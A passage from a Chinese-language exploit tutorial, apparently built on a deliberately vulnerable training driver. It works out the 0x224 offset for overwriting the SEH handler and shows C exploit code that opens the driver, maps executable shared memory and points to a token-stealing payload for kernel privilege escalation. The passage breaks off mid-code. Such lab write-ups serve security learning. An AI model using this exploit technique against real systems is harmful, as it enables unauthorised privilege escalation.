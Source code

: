  

971c1ad4-kernelbuffer:971c18b4=220, 所以 想要覆盖到 handler 函数地址 需要大小 0x224，偏移确定了，分析下 exp 原理。

 

5.

 

构造 exp（官方 exp）

 

具体原理看注释：

```
DWORD WINAPI StackOverflowGSThread(LPVOID Parameter) {
    HANDLE hFile = NULL;
    ULONG BytesReturned;
    SIZE_T PageSize = 0x1000;
    HANDLE Sharedmemory = NULL;
    PVOID MemoryAddress = NULL;
    PVOID SuitableMemoryForBuffer = NULL;
    LPCSTR FileName = (LPCSTR)DEVICE_NAME;
    LPVOID SharedMappedMemoryAddress = NULL;
    SIZE_T SeHandlerOverwriteOffset = 0x214;
    PVOID EopPayload = &TokenStealingPayladGSWin7;
    LPCTSTR SharedMemoryName = (LPCSTR)SHARED_MEMORY_NAME;
 
    __try {
        // 获得设备句柄
        DEBUG_MESSAGE("\t[+] Getting Device Driver Handle\n");
        DEBUG_INFO("\t\t[+] Device Name: %s\n", FileName);
 
        hFile = GetDeviceHandle(FileName);
 
        if (hFile == INVALID_HANDLE_VALUE) {
            DEBUG_ERROR("\t\t[-] Failed Getting Device Handle: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t[+] Device Handle: 0x%X\n", hFile);
        }
 
        DEBUG_MESSAGE("\t[+] Setting Up Vulnerability Stage\n");
 
        DEBUG_INFO("\t\t[+] Creating Shared Memory\n");
 
        // Create the shared memory
        //CreateFileMapping  用于创建一个文件映射内核对象
        Sharedmemory = CreateFileMapping(INVALID_HANDLE_VALUE,
                                         NULL,
                                         PAGE_EXECUTE_READWRITE,
                                         0,
                                         PageSize,
                                         SharedMemoryName);
 
        if (!Sharedmemory) {
            DEBUG_ERROR("\t\t\t[-] Failed To Create Shared Memory: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t\t[+] Shared Memory Handle: 0x%p\n", Sharedmemory);
        }
 
        DEBUG_INFO("\t\t[+] Mapping Shared Memory To Current Process Space\n");
 
        // Map the shared memory in the process space of this process
```
